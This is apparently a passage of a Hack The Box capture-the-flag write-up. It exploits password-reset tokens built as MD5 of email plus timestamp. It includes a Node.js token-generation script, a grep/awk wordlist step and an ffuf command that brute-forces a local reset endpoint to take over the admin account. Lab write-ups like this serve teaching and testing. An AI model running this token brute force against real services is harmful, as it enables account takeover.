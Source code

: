 To overcome this, I wrote another script that generated 4,000 tokens, one for every millisecond difference from when the script started. After requesting a password reset, I captured the token sent via email and then used it to grep the same value from the list of the 4,000 generated tokens. Sure enough, I found a match!
<br>
<p align="center">
  <img src="https://i.imgflip.com/97622y.jpg" title="A Match!" width="85%" />
</p>
<br>
Now, I just needed to apply the same process, but this time replacing test@hackthebox.com with admin@hackthebox.com in my script. To brute-force the password reset, I planned to use a tool like ffuf along with a wordlist of generated tokens. I created 4,000 tokens for the admin@hackthebox.com email and quickly triggered the "forgot password" function for that email. Afterward, I used grep to extract the tokens from my script and placed them into a wordlist. Finally, I passed the wordlist to ffuf to brute-force the token for the password reset feature.
```bash
grep "Token:" results.txt  | awk -F 'Token: ' '{print $2}' > wordlist.txt // parse tokens from output into a wordlist for ffuf
```

```bash
ffuf -u http://127.0.0.1:1337/api/reset-password -X POST -d '{"email":"admin@hackthebox.com","token":"FUZZ","newPassword":"admin"}' -w wordlist.txt -H "Content-Type: application/json" -fw 5 //Fuzz token value until password is reset
```
<p align="center">
  <img src="https://i.imgflip.com/9762eq.jpg" title="FUFF Output" width="85%" />
</p>
<br>
I used the token to reset the admin's password, logged in as the admin and got the flag: 
<p align="center">
  <img src="https://i.imgflip.com/9762nt.jpg" title="The Flag!!!" width="85%" />
</p>
<br>

##### Exploit:
```js
const crypto = require('crypto');

// Exploit script to generate multiple tokens within a time range
async function generateTokensForRange(email, range) {
    console.log(`[*] Starting token generation for a 2000ms range...`);

    // Get the current time in milliseconds
    const startTime = Date.now();
    console.log(`[*] Start time: ${startTime}`);

    // Iterate over the time range (milliseconds defined further down)
    for (let offset = 0; offset <= range; offset++) {
        const currentTime = startTime + offset;

        // Generate the seed and then MD5 token for each millisecond in the range
        const seed = email + currentTime.toString();
        const token = crypto.createHash('md5').update(seed).digest('hex');

        const fullDateTime = new Date(currentTime).toLocaleString("en-US", { timeZone: "UTC" });
        
        console.log(`[+] Time (milliseconds): ${currentTime} | Time (UTC): ${fullDateTime} | Token: ${token}`);
    }

    console.log(`[*] Token generation for range complete.`);
}
```